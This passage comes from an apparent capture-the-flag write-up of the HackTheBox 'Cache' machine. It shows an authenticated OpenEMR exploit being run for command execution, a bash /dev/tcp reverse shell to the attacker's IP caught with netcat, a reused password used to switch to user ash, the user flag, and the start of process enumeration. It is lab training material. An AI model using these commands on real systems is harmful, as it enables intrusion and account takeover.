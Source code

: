 We then fireup the authenticated exploit for openEMR found previously. At the
same time we start a simple Python HTTP server in order to check our RCE. It
works.

    :::text
    $python ./45161.py 'http://hms.htb' -u openemr_admin -p xxxxxx -c 'wget http://10.10.14.156:8081/$(id)t 0>&1'

    $python3 -m http.server 8081
    Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
    10.10.10.188 - - [16/May/2020 08:44:58] code 404, message File not found
    10.10.10.188 - - [16/May/2020 08:44:58] "GET /uid=33(www-data) HTTP/1.1" 404 -

We change our payload in order to get a reverse shell. We launch a `netcat` to
catch our reverse shell.

    :::text
    $python ./45161.py 'http://hms.htb' -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/10.10.14.156/4242 0>&1'

    $nc -l -p 4242
    bash: cannot set terminal process group (2504): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@cache:/var/www/hms.htb/public_html/interface/main$ whoami
    whoami
    www-data

We use python in order to get a better shell. And switch user to `ash` reusing
the password found in the JavaScript file. This allow us to get to the
`user.txt` flag.

    :::text
    www-data@cache:/var/www/hms.htb/public_html/interface/main$ python3 -c 'import pty; pty.spawn("/bin/sh")'
    $ su ash
    su ash
    Password: H@v3_fun

    ash@cache:/var/www/hms.htb/public_html/interface/main$ cd
    cd
      ash@cache:~$ cat user.txt
    cat user.txt
    a3014a6da5ebe33cd897b66b44397ef1

# Root

We use [pspy](https://github.com/DominicBreuker/pspy) to enumerate the running
process. We see that a few process are running especially `dockerd` and
`memecached`. Given the name of the box is certain that the `memcached` process
is involved.

    :::text
    www-data@cache:/tmp/.plop$ ./pspy64
    ./pspy64
    <snip>
    done
    2020/05/16 16:16:33 CMD: UID=103  PID=994    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only 
    2020/05/16 16:16:33 CMD: UID=0    PID=992    | /usr/sbin/cron -f 
    2020/05/16 16:16:33 CMD: UID=0    PID=977    | /usr/bin/dockerd -H fd:// 
    2020/05/16 16:16:33 CMD: UID=0    PID=969    | /usr/lib/accountsservice/accounts-daemon 
    2020/05/16 16:16:33 CMD: UID=111  PID=964    | /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid 
    2020/05/16 16:16:33 CMD: UID=0    PID=961    | /usr/bin/VGAuthService 
    2020/05/16 16:16:33 CMD: UID=0    PID=96     | 

